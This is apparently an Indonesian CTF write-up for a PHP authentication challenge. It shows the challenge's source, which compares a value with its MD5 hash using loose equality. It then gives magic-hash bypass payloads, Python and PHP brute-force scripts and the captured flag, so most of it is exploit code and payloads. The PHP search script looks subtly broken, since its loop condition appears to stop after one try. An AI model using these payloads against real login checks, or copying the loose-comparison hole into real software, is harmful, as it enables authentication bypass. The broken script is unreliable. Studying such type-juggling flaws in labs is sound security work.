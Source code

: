 Lanjut dengan Authentication yang ke 2 :D

Link : https://web.ctf.rasyidmf.com/chal39/

```
<?php
include './flag.php';
    include '../app.php';

    if(GET::GETS("source") != "") {
        echo file_get_contents("code.txt");
        return;
    }

    $auth = POST::GET("auth");
    if ($auth != "") {
        if ($auth == md5($auth)) {
            $msg = "Here is your flag " . $flag . "<br>";
        } else {
            $msg = "Authentikasi gagal!<br>";
        }
    }
?>
```

Referensi : 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
https://medium.com/@Q2hpY2tlblB3bnk/php-type-juggling-c34a10630b10
https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/

Simple Payload:
```
0e215962017
0e1137126905
```

Cari Manual (Python)
```
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s.encode()).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print ("[+] found! md5( {} ) ---> {}".format(s, hashed_s))
            print ("[+] in {} iterations".format(iters))
            exit(0)

        if iters % 1000000 == 0:
            print ("[+] current value: {}       {} iterations, continue...".format(s, iters))

breakit()
```

Cari Manual (PHP)
```
<?php
echo "running script";
 $base = "0e";
 $result = "";
 $curr_number = 0; 
 do {
  $curr = $base . "$curr_number";
  $result = md5($curr);
  $curr_number += 1;
  }
 while ($curr == $result);
echo "\n";
echo $curr;
echo "\n";
echo $result;
echo "\n";
```

Flag
```
CTFR{php_c0mp4r1510n_4r3_g00d}
```